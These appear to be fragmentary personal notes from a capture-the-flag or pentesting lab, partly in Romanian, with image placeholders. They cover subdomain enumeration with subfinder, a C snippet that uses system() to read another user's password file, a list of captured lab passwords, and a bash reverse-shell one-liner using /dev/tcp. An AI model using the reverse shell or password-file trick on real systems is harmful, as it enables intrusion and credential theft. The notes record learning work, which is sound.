 Scaneaza subdomeniele:
```bash
subfinder -d https://duckduckgo.com/ -o subd.txt
```
#### Tool
 - https://github.com/redsiege/EyeWitness
 - (soursmapper)
 - (phonebook.cz)
- (token.dev)

HSTS --?


![[Pasted image 20240203190215.png]]
The cod:
```
#include <stdio.h> 
#include <stdlib.h> 
int main() {
	// Execută comanda 'ls' (afisează conținutul   directorului) 
	system("cat /home/user2/password.txt"); 
	return 0;
}
```

password: `octoberiscoming`
![[Pasted image 20240203191206.png]]
```ruby
User2:
octoberiscoming

User3:
braceyourselvesforthewinter

User4:
thisisnotagotreference

User5:
crons_everywhere
```
![[Pasted image 20240213195713.png]]
![[Pasted image 20240213195935.png]]
![[Pasted image 20240213201035.png]]
```bash
sh -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

